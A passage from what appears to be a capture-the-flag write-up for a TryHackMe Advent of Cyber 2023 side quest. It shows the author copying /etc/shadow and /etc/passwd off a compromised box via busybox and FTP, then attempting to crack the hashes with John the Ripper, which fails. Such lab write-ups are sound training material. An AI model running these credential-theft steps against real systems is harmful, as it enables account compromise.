 A password prompt from the screen saver...

> I'll admit that if you're taking screenshots for your write up and get to this screen before it goes to screensaver, you can skip the next step. But for completeness I locked it to show you what I did in the challenge.
> 
Well let's try the safest option of exfiltrating `/etc/passwd` & `/etc/shadow` to see if we can crack the password.

```bash
## On remote box ##
(unreachable)/home/ubuntu/.vnc # /etc/file/busybox cp /etc/shadow /tmp/ftp/shado
(unreachable)/home/ubuntu/.vnc # /etc/file/busybox cp /etc/passwd /tmp/ftp/passwd
... ## On attack box ## ...
ftp> download shado
?Invalid command.
ftp> get shado
local: shado remote: shado
200 Operation successful
150 Opening BINARY connection for shado (529 bytes)
100% |*************************************************************************************************************|   529        9.17 MiB/s    00:00 ETA
226 Operation successful
529 bytes received in 00:00 (3.82 MiB/s)
ftp> get passwd
local: passwd remote: passwd
200 Operation successful
150 Opening BINARY connection for passwd (969 bytes)
100% |*************************************************************************************************************|   969       14.43 MiB/s    00:00 ETA
226 Operation successful
969 bytes received in 00:00 (4.73 MiB/s)

...
┌──(tokugero㉿kali)-[~/thm/rooms/aoc2023/task3]
└─$ john --wordlist=/usr/share/wordlists/john.lst johnshadow 
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2023-12-12 21:47) 0g/s 88650p/s 88650c/s 88650C/s 123456..sss
Session completed. 
                                                                                                                                                          
┌──(tokugero㉿kali)-[~/thm/rooms/aoc2023/task3]
└─$ john --show johnshadow                     
0 password hashes cracked, 2 left
```

Okay well that didn't work. Let's just disable passwords for this user, I'm sure they won't mind.

> Now you see it

![alt text](../../../assets/images/ctf/events/tryhackme-advent-of-cyber-23/2023-12-23-side-quest-3.md/2023-12-23-side-quest-3/image-17.png)
